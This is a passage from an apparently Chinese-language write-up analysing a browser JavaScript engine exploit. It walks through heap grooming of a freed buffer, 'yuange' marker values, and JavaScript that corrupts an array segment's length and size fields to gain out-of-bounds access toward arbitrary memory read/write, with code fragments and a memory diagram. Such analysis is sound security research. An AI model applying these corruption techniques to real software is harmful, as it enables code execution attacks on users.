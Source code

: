 1851880825 这个奇怪数值是什么呢？程序员看到这个数字大脑绝对是崩溃的，其实1851880825是”yuange”字符串中的”yuan”,25959是”yuange”中的”ge”,占位成功的话就拼接出”yuange”这个字符串。

[![](https://p2.ssl.qhimg.com/t018bce0306d9b9e24a.jpg)](https://p2.ssl.qhimg.com/t018bce0306d9b9e24a.jpg)

然后利用占位的数组，精心的构造一个对象，

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01b0383f1c51b84953.jpg)

0x6e617579是标记，0x6567也是一个标记



```
//arr[i+1](arrvar) 的数据区紧邻arr[i](arrint)的数据区，都在释放了的buffer对象的缓冲区空间内
arr[i+1]=new Array(0x400);
arr[i+1][1]=buffer;
arr[i+1][0]=0;
getarrint(i);
｝
｝
函数getarrint 的定义如下：
function getarrint(i)
`{`
arr[i].length=0x10000;
arrint=arr[i];
arrvar=arr[i+1];
write(0x09,0x001000,0x100000,0x0001000);
write(0x0a,0x001000,0x100000,0x0001000);
`}`
//这里两个write修改占位成功的arrint 对象的segment 的size和length 字段
```

[![](https://p2.ssl.qhimg.com/t01096882d9c4fe1fcd.jpg)](https://p2.ssl.qhimg.com/t01096882d9c4fe1fcd.jpg)

下面可以看到已经成功修改了segment 的size和length字段

之前这个对象内存如下0x00000002 代表存储int的个数,从后面的内存可以看到，这里存储了0x6e617579和0x00006567两个值，0x6e617579是JIT代码写进来的，覆盖了arr[i][0]=0这个值。

[![](https://p0.ssl.qhimg.com/t01bee576d1c21e91c0.jpg)](https://p0.ssl.qhimg.com/t01bee576d1c21e91c0.jpg)

修改这个有什么作用呢？其实此时已经得到了一个长度为0x1000的seg，

seg中元素个数为0x1000,此时就能越界对后面内存进行读写访问了。

这个先放在这，后面要用到。下一步就是伪造一个fakeview，进而完成任意地址读写。

3)此时的内存布局如下：



```
Buffer--------&gt; ---------------------------
| 0x20 内存块头部|
Arrint.seg---------&gt;| |
| |
| |
| 0x3000 内存块|
| |
| |
Arrvar.seg———&gt;| |
| |
| |
| |
| |
```
